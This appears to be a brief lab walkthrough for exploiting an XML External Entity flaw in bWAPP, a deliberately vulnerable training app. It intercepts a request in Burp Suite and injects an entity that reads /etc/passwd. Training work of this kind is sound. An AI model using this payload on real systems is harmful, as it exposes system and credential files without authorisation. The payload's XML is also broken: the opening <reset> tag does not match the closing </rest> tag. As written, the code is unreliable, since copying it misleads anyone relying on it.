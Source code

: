 1. Go to XML External Entity Attacks (XXE) in bWAPP
2. Turn intrecept on in burp suite
3. Click on Any bugs?
4. Send the request to the repeater feature and add an XML entity that fetches /etc/passwd and forward the request:
    
	<!DOCTYPE login[<!ENTITY hacked SYSTEM "/etc/passwd">]>
	<reset><login>&hacked;</login><secret>Any bugs?</secret></rest>